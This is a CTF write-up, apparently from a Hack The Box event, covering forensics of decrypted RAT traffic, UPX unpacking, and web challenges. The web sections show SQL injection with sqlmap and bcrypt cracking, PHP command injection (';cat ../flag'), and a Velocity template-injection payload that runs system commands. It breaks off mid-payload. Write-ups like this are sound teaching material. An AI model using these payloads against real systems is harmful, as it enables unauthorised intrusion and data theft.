GiPSLRf/ZFgAVedm3Ft7ZfyryWDv39QaIyR7fzTDNkscc0uBBgmFZK++jYo17djAGCkRDJBH2cqTTX5Fp0itI3I1FfJlRHs5ZnOyS0/Yfppk5kd39mVneMNwkToFyFpeVHUVjJMaRK4MrysSrgUY++A4gdkPa+3Gd8zuNtSvLOI7AHrkoqOufTvE0ZPfbyKKkqTxit2V2AVex5HrZIHAPQW/kWYxTVdz/Ct8c7fMY4nlEUK/hKAPjiJdJdu7JZxGOKiOAek/NT0GmzYvxabQq3ak7UGyTsOTddY3HiuGstNNo/mfsVlK9QMx5opn+ayLvSeKc5P5psPYcfx6yglSTCjYw1ZyUtqmaEyMSyghrQ3XnGHaxLv0cYawgbOPT92ilYKxrP19pG4NED/DLjJigEuvv3GPapks/gr3ugM2EzwNffE4+nxRuLp/rvVDH74omhrRtrlOTb4pEhtezKPlnL1Za2izIPAABnVU8V6Xlo5Jsz9RBfdClL30ew/CtAUYnunzPLBgBwECy0Nc6XmT0sNp3XLoSFNpA9UGj8QZJqTnfHK/SRcpCmD1qe7/a2pkrW/gKhC69tTTG3/d/0Dyo5KHVCyNtJqc/Q91YN42cIit30VmS/Bp4dgU5bwZbEk5oRdmsGEqn7HiECvuyiY9GCjlr4HmGTDMDWGGOXlYzUrVZ7jBP/Cg/xHo49zTKMK861lH1DdEUw7B2c+Ndd6ItL3WNCV37PWD5ckEf9Y9CZtJVT/Bsw09AUwrpJTvHE5ZqeGjMCUCkEkMg6inQ5cMAxfD6jeHcopPC557bjQeXywjEx/6SugZcq9kCPCAW0CR5RDF4cHnXPUunpCYZVuMDM98IBhEmf2q9MfL8lvuSzduxwff7QJnlkas1G9iTqUoiPdKJblWLkOKKNTXNTtqj0GDE39CLveYt2A+nGqnyz7URIKdbigKlB6Uj74AWAuuQkB1jsjiJ5w==
```

There is also two base64 found in one line, that i needed to split.

```bash
24§uib3VErvtueXl08f8u4nfQ==24§uib3VErvtueXl08f8u4nfQ==
```

But as you can see both are the same. 

Now time for the decrypt the result (i show only Decrypted Text output for a better result).

```bash
$ mono decryptor.exe
Enter your Encrypted Data : 
1BhuY4/niTopIBHAN6vvmQ==
Decoded Text : getinfo-0

Decoded Text : infoback;0;10.10.10.22|SRV01|SRV01\svc01|Windows 10 Enterprise Evaluation|0.1.6.1

Decoded Text : cmd;C:\;hostname

Decoded Text : cmd;C:\;srv01

Decoded Text : cmd;C:\;whoami

Decoded Text : cmd;C:\;srv01\svc01

Decoded Text : cmd;C:\;echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwyPZCQyJ/s45lt+cRqPhJj5qrSqd8cvhUaDhwsAemRey2r7Ta+wLtkWZobVIFS4HGzRobAw9s3hmFaCKI8GvfgMsxDSmb0bZcAAkl7cMzhA1F418CLlghANAPFM6Aud7DlJZUtJnN2BiTqbrjPmBuTKeBxjtI0uRTXt4JvpDKx9aCMNEDKGcKVz0KX/hejjR/Xy0nJxHWKgudEz3je31cVow6kKqp3ZUxzZz9BQlxU5kRp4yhUUxo3Fbomo6IsmBydqQdB+LbHGURUFLYWlWEy+1otr6JBwpAfzwZOYVEfLypl3Sjg+S6Fd1cH6jBJp/mG2R2zqCKt3jaWH5SJz13 HTB{c0mmun1c4710n5 >> C:\Users\svc01\.ssh\authorized_keys
```

We found the first flag part stored into the SSH `authorized_keys` file!

**First Flag Part : HTB{c0mmun1c4710n5**


Let's move on.

```bash
Decoded Text : cmd;C:\;

Decoded Text : cmd;C:\;dir C:\Users\svc01\Documents

Decoded Text : cmd;C:\; Volume in drive C is Windows 10
 Volume Serial Number is B4A6-FEC6

 Directory of C:\Users\svc01\Documents

02/28/2024  07:13 AM    <DIR>          .
02/28/2024  07:13 AM    <DIR>          ..
02/28/2024  05:14 AM                76 credentials.txt
               1 File(s)             76 bytes
               2 Dir(s)  24,147,230,720 bytes free

Decoded Text : cmd;C:\;type C:\Users\svc01\Documents\credentials.txt

Decoded Text : cmd;C:\;Username: svc01
Password: Passw0rdCorp5421

2nd flag part: _h45_b33n_r357
```

We found the second part of the flag into the user `svc01` Documents folder, in a `credentials.txt` file! This mean that we recovered the whole flag!

**Second Flag Part : _h45_b33n_r357**


Let's continue for fun.

```bash
Decoded Text : lsdrives

Decoded Text : lsdrives;C:\|

Decoded Text : lsfiles

Decoded Text : lsfiles-C:\

Decoded Text : lsfiles;C:\;$Recycle.Bin�2|BGinfo�2|Boot�2|Documents and Settings�2|PerfLogs�2|Program Files�2|Program Files (x86)�2|ProgramData�2|Recovery�2|System Volume Information�2|temp�2|Users�2|Windows�2|bootmgr�1�408364|BOOTNXT�1�1|BOOTSECT.BAK�1�8192|bootTel.dat�1�80|pagefile.sys�1�738197504|swapfile.sys�1�268435456|

Decoded Text : lsfiles-C:\temp\

Decoded Text : lsfiles;C:\temp\;aQ4caZ.exe�1�29184|

Decoded Text : upfile;C:\temp\4AcFrqA.ps1

Decoded Text : upfilestop;
```

And we solved this amazing challenge!!!

> Note : So yeah... In the beginning, into the `strings` output of the malware executable, the string `Very_S3cr3t_S` was a rabbit hole to push you to think that you obtained the second and third part of the flag. So the first idea is to step back, like if you missed something. But as you see... WE SHOULD NOT! I haven't dig a lot to see where this string are coming from. But if you build the original EZRAT source, and run `strings` on the exe, you will see that it look like the Author Name or something like that.

**FLAG :  HTB{c0mmun1c4710n5_h45_b33n_r3570r3d_1n_7h3_h34dqu4r73r5}**


## Reversing<a name="reverse"></a>

## Packed Away<a name="packed"></a>

Difficulty : **Very Easy**

Value : **300 points**

Challenge Description : 

`To escape the arena's latest trap, you'll need to get into a secure vault - and quick! There's a password prompt waiting for you in front of the door however - can you unpack the password quick and get to safety?`

Attachments : 

- <a href="assets/challenges/reversing/PackedAway/rev_packedaway.zip">rev_packedaway.zip</a>

### Solution

Downloading the attachment zip and unzip it reveal a binary. 

Using the `file` command to see which binary it is, show that it's an ELF 64bit.

```bash
file packed                 
packed: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), statically linked, no section header
```

Running `strings` against it show some interesting things. (I removed a lot of content and replace with `...` to make the output shorter)

```bash
$ strings packed                 
UPX!
-9ya
tdoP7yd
/lib64
nux-x86-
so.2
...
PTE1
u+UH
Hr3t_0f_th3_p45}
ck3d
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.22 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved. $
_RPWQM)
...
fK      dynb
la(
;d?@
UPX!
UPX!
```

We notice two things, it seem that the binary is packed using `UPX executable packer (UPX 4.22)`.

```bash
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.22 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved.
```

Also we notice a part of the flag. 

```bash
Hr3t_0f_th3_p45}
```

So it seem that if we are able to unpack this binary, we can retrieve the flag. So let's google how to unpack packed binary using UPX.

At my first search, i've found this interesting blog post about it, but this is going too far, and in our case, we can retrieve the flag by unpacking it using UPX without problem, but bellow is the blog post for ressources that i encourage you to read.

<a href="https://infosecwriteups.com/how-to-unpack-upx-packed-malware-with-a-single-breakpoint-4d3a23e21332">How to unpack UPX packed malware with a single breakpoint</a>

So apparently, we can unpack too using UPX, so let's download UPX 4.22, which seem to be UPX 4.2.2 (the most recent version).

<a href="https://github.com/upx/upx/releases">UPX Relase Link</a>

Download it and give the execution right with `chmod +x` and run it to see how to use the tool.

```bash
$ chmod +x upx                                  

$ upx                            
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.2       Markus Oberhumer, Laszlo Molnar & John Reiser    Jan 3rd 2024

Usage: upx [-123456789dlthVL] [-qvfk] [-o file] file..

Commands:
  -1     compress faster                   -9    compress better
  -d     decompress                        -l    list compressed file
  -t     test compressed file              -V    display version number
  -h     give more help                    -L    display software license
Options:
  -q     be quiet                          -v    be verbose
  -oFILE write output to 'FILE'
  -f     force compression of suspicious files
  -k     keep backup files
file..   executables to (de)compress

Type 'upx --help' for more detailed help.

UPX comes with ABSOLUTELY NO WARRANTY; for details visit https://upx.github.io
```

So we can `decompress` our binary using the command `-d` and the option `-o` for the uncompressed binary output. Let's do it.

```bash
$ ls
packed  upx

$ upx -d packed -o unpacked      
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.2       Markus Oberhumer, Laszlo Molnar & John Reiser    Jan 3rd 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     22867 <-      8848   38.69%   linux/amd64   unpacked

Unpacked 1 file.
```

Once successfully unpacked, we can use `strings` against the unpacked binary, and we will see a more readable binary, with the complete flag in it.

```bash
$ strings unpacked 
...
_end
GLIBC_2.34
GLIBC_2.2.5
PTE1
u+UH
Hr3t_0f_th3_p45}
HTB{unp4ck3dr3t_HH0f_th3_pH0f_th3_pH0f_th3_pH0f_th3_pH
HTB{
black
HTB{unp4ck3d_th3_s3cr3t_0f_th3_p455w0rd}
green
Window
Placeholder
...
```

**FLAG : HTB{unp4ck3d_th3_s3cr3t_0f_th3_p455w0rd}**


## Web<a name="web"></a>

## Flag Command<a name="flagcommand"></a>

Difficulty : **Very Easy**

Value : **300 points**

Challenge Description :

`Embark on the "Dimensional Escape Quest" where you wake up in a mysterious forest maze that's not quite of this world. Navigate singing squirrels, mischievous nymphs, and grumpy wizards in a whimsical labyrinth that may lead to otherworldly surprises. Will you conquer the enchanted maze or find yourself lost in a different dimension of magical challenges? The journey unfolds in this mystical escape!`

Attachments : 

- Live Docker Instance

### Solution

First we start the docker, and take a loot at the Web App.<br/>

<p align="center">
	
</p>

<br/>

> Note : This remembered me the Apple II `eXit` game from Mr.Robot series, few years ago, you was able to play the game online. But unfotunatly the game is no longer up, and web archive capture seem to not allowing you to play on this one... But some people made great port of this on github if you search for it.  For those who didnt see Mr.Robot show and are planning to see it, SPOILER WARNING !  <a href="https://www.youtube.com/watch?v=g_Miz2ZqSI4">Here is a video about the eXit game scene on Mr.Robot. </a><br/>
 
Oh nice! We find a text game. Let's try to start it to see what we can do.<br/>

<p align="center">
	
</p>
<br/>
Nothing that will help apparently, let's try to run a system command to see if it work.

Not working, but we got a hint!<br/>

<p align="center">
	
</p>

<br/>
So we need to "pick from options", let's look at the source code of the page.

```javascript
<script src="[/static/terminal/js/commands.js](view-source:http://83.136.251.7:40461/static/terminal/js/commands.js)" type="module"></script>

<script src="[/static/terminal/js/main.js](view-source:http://83.136.251.7:40461/static/terminal/js/main.js)" type="module"></script>

<script src="[/static/terminal/js/game.js](view-source:http://83.136.251.7:40461/static/terminal/js/game.js)" type="module"></script>

<script type="module">
    import { startCommander, enterKey, userTextInput } from "/static/terminal/js/main.js";
    startCommander();
    window.addEventListener("keyup", enterKey);
    // event listener for clicking on the terminal
    document.addEventListener("click", function () {
      userTextInput.focus();
    });
</script>
  ```

We found some interesting page, `command.js`, `main.js` and `game.js` all of these are into `/static/terminal/js/` path.

Taking a look at `command.js` with don't find anything useful excepted which message we get once we win or lose the game.

```javascript
export const GAME_LOST =  'You <span class="command error">died</span> and couldn\'t escape the forest. Press <span class="command error">restart</span> to try again.';

export const GAME_WON = 'You <span class="command success">escaped</span> the forest and <span class="command success">won</span> the game! Congratulations! Press <span class="command success">restart</span> to play again.';
```

Taking a look at `game.js`, we found the game mechanics, nothing useful for us.

Finally, let's take a look at `main.js`, and there, a lot of things are interesting, let's analyse all of it one by one.

The HTTP Requests
```javascript
// HTTP REQUESTS
// ---------------------------------------
async function CheckMessage() {
    fetchingResponse = true;
    currentCommand = commandHistory[commandHistory.length - 1];

    if (availableOptions[currentStep].includes(currentCommand) || availableOptions['secret'].includes(currentCommand)) {
        await fetch('/api/monitor', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ 'command': currentCommand })
        })
            .then((res) => res.json())
            .then(async (data) => {
                console.log(data)
                await displayLineInTerminal({ text: data.message });

                if(data.message.includes('Game over')) {
                    playerLost();
                    fetchingResponse = false;
                    return;
                }

                if(data.message.includes('HTB{')) {
                    playerWon();
                    fetchingResponse = false;

                    return;
                }

                if (currentCommand == 'HEAD NORTH') {
                    currentStep = '2';
                }
                else if (currentCommand == 'FOLLOW A MYSTERIOUS PATH') {
                    currentStep = '3'
                }
                else if (currentCommand == 'SET UP CAMP') {
                    currentStep = '4'
                }

                let lineBreak = document.createElement("br");


                beforeDiv.parentNode.insertBefore(lineBreak, beforeDiv);
                displayLineInTerminal({ text: '<span class="command">You have 4 options!</span>' })
                displayLinesInTerminal({ lines: availableOptions[currentStep] })
                fetchingResponse = false;
            });


    }
    else {
        displayLineInTerminal({ text: "You do realise its not a park where you can just play around and move around pick from options how are hard it is for you????" });
        fetchingResponse = false;
    }
}
```

Let's cut this. Here you can see that a `secret` command seem to exist, and if triggered it will fetch `/api/monitor` with a POST request using the secret command used as data.

```javascript
    if (availableOptions[currentStep].includes(currentCommand) || availableOptions['secret'].includes(currentCommand)) {
        await fetch('/api/monitor', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ 'command': currentCommand })
        })
```

Then we see that if the response contain `Game Over` we lost, but if it contain `HTB{` we won! Seem that we found how to retrieve the flag.

```javascript
                if(data.message.includes('Game over')) {
                    playerLost();
                    fetchingResponse = false;
                    return;
                }

                if(data.message.includes('HTB{')) {
                    playerWon();
                    fetchingResponse = false;

                    return;
                }
```

So we need to retrieve the secret command. Let's continue to read the `main.js` code. A lot of the code seem not relevant for us now, but at the really end of the code we can see this.

```javascript
const fetchOptions = () => {
    fetch('/api/options')
        .then((data) => data.json())
        .then((res) => {
            availableOptions = res.allPossibleCommands;

        })
        .catch(() => {
            availableOptions = undefined;
        })
}
```

There is a `fetchOptions` variable, which seem to fetch `/api/options` and return all possible commands, this time it look like a GET request.

Let's try to browse this API point.

```
http://docker-ip:port/api/options
```

We found the list of each possible commands as expected, and we see the secret command! Which is `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`.

```json
secret:
	0: "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"
```
<br/>
<p align="center">
	
</p>
<br/>

Return to the game, reset the game with the `restart` command if needed, then `start`it, and submit the secret command.

<br/>
<p align="center">
	
</p>

<br/>

And we got the flag!

But! Here is a problem, it seem hard to copy the flag, and as the flag say, dev tools are the best, so use the dev tools to copy it.
<br/>

<p align="center">
	
</p>
<br/>

**FLAG : HTB{D3v3l0p3r_t00l5_4r3_b35t_wh4t_y0u_Th1nk??!}** 


## KORP Terminal<a name="korpterminal"></a>

Difficulty : **Very Easy**

Value : **300 points**

Challenge Description :

`Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.`

Attachments : 

- Live Docker Instance

### Solution

First we start the docker instance and take a look at how the web app is made.

<p align="center">
	
</p>

We got a login page, let's try to guess default credentials such as `admin:admin`.

We got a JSON response saying `Invalid user or password`.

<p align="center">
	
</p>

As the description said, we need to gain access, let's intercept the request using Burp Suit to see how it look.

<p align="center">
	
</p>

Nothing relevant. As we need to gain access, and this is a very easy challenge, i was thinking about SQL injection, let's send the request to repeater and try to put a quote after the username, and see how the web app interpret it.

<p align="center">
	
</p>

Great! We got an error in the SQL syntax, so maybe we can inject SQL query in the web app! For this, i used SQLMap.

I go back to the proxy tab of burp suite, and save the request under action > save item, to a file called `sqlrequest.txt`.

Then i run SQLMap on the request file with `-r sqlrequest.txt` and no parameter.

```bash
$ sqlmap -r sqlrequest.txt                                                  
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:59:13 /2024-03-15/

[03:59:13] [INFO] parsing HTTP request from 'sqlrequest.txt'
[03:59:13] [INFO] testing connection to the target URL
[03:59:14] [CRITICAL] not authorized, try to provide right HTTP authentication type and valid credentials (401). If this is intended, try to rerun by providing a valid value for option '--ignore-code'
[03:59:14] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 1 times

[*] ending @ 03:59:14 /2024-03-15/
```

I got a 401 error response, so i re run the tool with the parameter `--ignore-code 401`.

We detected the Database Management System as "MySQL" and it ask me if i want to skip tests for other DMBS, to what i answer "Yes", then it ask me if i want to increase the level and risk of the request to `1`, and i answer "Yes" again.

```bash
[04:00:25] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[04:00:25] [INFO] testing for SQL injection on POST parameter 'username'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
```

Then we found some successful injections agains the POST parameter "username".

```bash
[04:00:45] [INFO] POST parameter 'username' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --code=401)
...
[04:00:47] [INFO] POST parameter 'username' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
...
[04:01:13] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (SLEEP)' injectable 

```

Then it ask me if i want to find proper UNION column with a fuzz test, and if i want to keep testing other parameter than "username", to what i answer "No" to both to speed up the process.

```bash
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[04:04:39] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
```

Finally, the SQL Injection is a success.

```bash
sqlmap identified the following injection point(s) with a total of 383 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=admin' RLIKE (SELECT (CASE WHEN (5984=5984) THEN 0x61646d696e ELSE 0x28 END))-- DJRZ&password=admin

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 9948 FROM(SELECT COUNT(*),CONCAT(0x716b707871,(SELECT (ELT(9948=9948,1))),0x716b787671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tfeO&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: username=admin' AND SLEEP(5)-- wECV&password=admin
---
[04:04:53] [INFO] the back-end DBMS is MySQL
```

Now i rerun SQLMap but this time with the parameter `--ignore-code 401 --dbms=mysql --dump all --batch` which will :

- ignore the 401 error
- set the dbms to mysql and test injection for this specific dbms
- dump all databases, tables and entry.
- batch is used to automate my answer as i used the default one each time at the first run

```bash
$ sqlmap -r sqlrequest.txt --ignore-code 401 --dbms=mysql --dump all --batch

...

[04:08:44] [INFO] fetching current database
[04:08:44] [INFO] retrieved: 'korp_terminal'
[04:08:44] [INFO] fetching tables for database: 'korp_terminal'
[04:08:44] [INFO] retrieved: 'users'
[04:08:44] [INFO] fetching columns for table 'users' in database 'korp_terminal'
[04:08:45] [INFO] retrieved: 'id'
[04:08:45] [INFO] retrieved: 'int(11)'
[04:08:45] [INFO] retrieved: 'username'
[04:08:45] [INFO] retrieved: 'varchar(255)'
[04:08:45] [INFO] retrieved: 'password'
[04:08:45] [INFO] retrieved: 'varchar(255)'
[04:08:45] [INFO] fetching entries for table 'users' in database 'korp_terminal'
[04:08:45] [INFO] retrieved: '1'
[04:08:45] [INFO] retrieved: '$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.'
[04:08:45] [INFO] retrieved: 'admin'
Database: korp_terminal
Table: users
[1 entry]
+----+--------------------------------------------------------------+----------+
| id | password                                                     | username |
+----+--------------------------------------------------------------+----------+
| 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
+----+--------------------------------------------------------------+----------+
```

Great! We got the username `admin` with the password hash `$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.` from the database `korp_terminal`, in the tables `users`.

My next step was to identify that hash type, it look like bcrypt but to be sure we can have a look to the hashcat examples hashes page. You can find it bellow.

<a href="https://hashcat.net/wiki/doku.php?id=example_hashes">Hashcat Examples Hashes</a>

<p align="center">
	
</p>

Look like bcrypt `bcrypt $2*$, Blowfish (Unix)` with the hash mode `3200`, i save the hash to a file called `hash.txt` and attempt to crack it using hashcat.

```bash
$ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

...

$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8...63yiv.
Time.Started.....: Fri Mar 15 04:20:17 2024 (53 secs)
Time.Estimated...: Fri Mar 15 04:21:10 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       26 H/s (9.27ms) @ Accel:8 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344385 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1344/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: teacher -> tagged
Hardware.Mon.#1..: Temp: 59c Util: 93%

Started: Fri Mar 15 04:20:11 2024
Stopped: Fri Mar 15 04:21:12 2024
```

Great! We sucesfully cracked it. The username is `admin` (as found in the database tables) and the password is `password123`.

Now let's login, and we got the flag! 

<p align="center">
	
</p>

**FLAG : HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}**


## TimeKORP<a name="timekorp"></a>

Difficulty : **Very Easy**

Value : **300 points**

Challenge Description :

`Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.`

Attachments : 

- Live Docker Instance
- <a href="assets/challenges/web/timekorp/web_timekorp.zip">web_timekorp.zip</a>

### Solution

> Note : With my code review skills, i dontt think that my solution is the most complete. So i encourage you to read another WriteUp after this one.

As i'm not the best with code review, i start the docker and take a look at the  Web App.

<p align="center">
	
</p>

As we can see, we can look the time and date. We can play with this input by modifying the `?format=%H:%M:%S` and reflect the output which is reflected in the source code too.

Maybe we can find a command injection here. Now let's download the source code provided as attachment and analyse it.

As the challenge name is `Time KORP`, i directly suspected two file which is `web_timekorp/challenge/controllers/TimeController.php` and `web_timekorp/challenge/models/TimeModel.php`.

Taking a look at `TimeController.php` we see this piece of code.

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

We can see that `($_GET['format'])` isn't sanitized,  that's why we are allowed to use any input instead. Also we see that `$time = new TimeModel($format);` create a new `TimeModel` object.

Let's take a look at `TimeModel` class which can be found on the `TimeModel.php` file.

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

We can see that the command is constructed by the following way : `$this->command = "date '+" . $format . "' 2>&1";`, and then it pass the command to `exec()`.

So we may find a way to escape this to make a command injection.

As i said, i'm not good enough in code review, maybe someone can figure how directly, but not me. So i've asked ChatGPT some more information to explain me these command.

And he told me that :

```
In PHP, the period `.` is the concatenation operator for strings. When used between two strings or string variables, it joins them together to form a single string.
```

Which mean that when we pass an input, the command : 

```php
date '+" . $format . "' 2>&1";
```

Become this :

```php
`date '+%H:%M:%S' 2>&1`
```

That's great for us! Because as the command pass to exec() function, we should be able to escape the date command using a quote, to close the "date" input, and then add `;` to send our additional system command. And finally close it again with a quote.

To test this, i used `date` on my Linux to try some input, and if i put a space. Here is what happen.

```bash
$ date '+' ''
date: extra operand ‘’
Try 'date --help' for more information.
```

So let's try to send `' '` as input.

<p align="center">
	
</p>

Great it seem to work! But apparently, it retrieve only one line instead of each line (as the `date: extra operand ''` isn't there), but it should be enough to recover the flag based on the fake flag. 

So now, let's try to send the system command `ls` using `';ls'` as payload. 

<p align="center">
	
</p>

Great! We found the folder `views` and it is located at  `web_timekorp/challenge/` based on the sources codes.

Time to retrieve the flag, our flag is located at `web_timekorp/flag`, we can send the system command `cat ../flag` to recover it's content, using the payload `;cat ../flag`.

<p align="center">
	
</p>

**FLAG : HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}**


## Labyrinth Linguist<a name="labyrinth"></a>

Difficulty : **Easy**

Value : **300 points**

Challenge Description :

`You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.`

Attachments :

- Live Docker Instance
- <a href="assets/challenges/labyrinth_linguist/web_labyrinth_linguist.zip">web_labyrinth_linguist.zip</a>

### Solution

First we download the sources, and start to analyse it. 

We found a file caled "pom.xml", this file contain informations and configuration details used by Maven to build the project.

Reading at it we can see few interesting plugins and their corresponding version such as :

```xml
# POM Model Version
<modelVersion>4.0.0</modelVersion>

# Free Marker Server
<artifactId>FreeMarkerServer</artifactId>
<version>0.0.1-SNAPSHOT</version>

# Spring Boot Maven Plugin
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-maven-plugin</artifactId>

# Maven Assembly Plugin
<groupId>org.apache.maven.plugins</groupId>
<artifactId>maven-assembly-plugin</artifactId>

# Spring Boot Starter Parent
<artifactId>spring-boot-starter-parent</artifactId>
<version>1.5.10.RELEASE</version>

# Spring Boot Starter Web
<artifactId>spring-boot-starter-web</artifactId>

# Velocity
<artifactId>velocity</artifactId>
<version>1.7</version>
```

Doing some google search about these, to look for potential vulnerability and we find a relevant vulnerability.

Velocity 1.7 is affected by <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13936">CVE-2020-13936</a>, which allow an attacker to execute arbitrary Java code or system command if he is able to modify Velocity templates.

Then i found a cool blog explaining Server Side Template Injection (SSTI) exploitation against Velocity 1.7, that you can find bellow.

<a href="https://antgarsil.github.io/posts/velocity/">Testing Velocity Server-Side Template Injection</a>

Before reading more sources code, let's start the docker, and check how the web app look.

<p align="center">
	
</p>

As said the description, its a translator web app, we are able to send text and translate it from English to "Voxalith" language. Which seem unreadable. But we can use Burp Suite to read the output, or use the browser dev tools.

I prefer to use burp suite for web stuff, so i start Burp use the dedicated Chromium browser and intercept the request by sending "Hello There". Finally i send the request to repeater and execute it.

<p align="center">
	
</p>

Perfect, i got the output readable. Now let's see if the Web App is vulnerable to SSTI. For it i used the payload bellow, found on the blog mentioned before.

```javascript
#set ($run=1 + 1) $run 
```

If the output is the whole payload, it shouldn't be vulnerable, else if the output is "2", it mean our code is executed because our payload say "1+1".

I came back to burp suite and i modify my previous command with the payload, select it and use "CTRL+U" to URL encode it, finally i send the request.

<p align="center">
	
</p>

Perfect! The output is "2", which mean that the Web App is vulnerable to SSTI, no fix was made.

My next goal was to execute command, so i used the RCE payload shown in the blog.

```javascript
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

I put it as one liner in Burp by removing each new line, excepted at `$ex.waitFor()` and `$str.valueof($chr.toChars($out.read()))` where i added comas `,`.

```javascript
#set($str=$class.inspect("java.lang.String").type)#set($chr=$class.inspect("java.lang.Character").type)#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami")),$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()]),$str.valueOf($chr.toChars($out.read()))#end
```

Then i URL encode it in burp suite by selecting it and using "CTRL+U" shortcut, then i send the request.

<p align="center">
	
</p>

But the given payload on the blog doesn't work, all command seem successfully executed are they aren't reflected in the output, excepted this one.

```javascript
$ex.waitFor()
```

I tried to replace comas with sharp `#`, but it doesn't work. This mean that the web app had probably some protection.

Instead of reading source code (because i'm really bad for it), i continue my google search and find a thread on GitHub talking about Velocity 1.7 SSTI payload, you can find it bellow.

<a href="https://github.com/epinna/tplmap/issues/9">Command Execution for Velocity Template Engine</a>

Reading the thread, i found this payload as one liner.

```javascript
# Payload
#set($engine="string")
#set($run=$engine.getClass().forName("java.lang.Runtime"))
#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))
#set($null=$proc.waitFor())
#set($istr=$proc.getInputStream())
#set($chr=$engine.getClass().forName("java.lang.Character"))
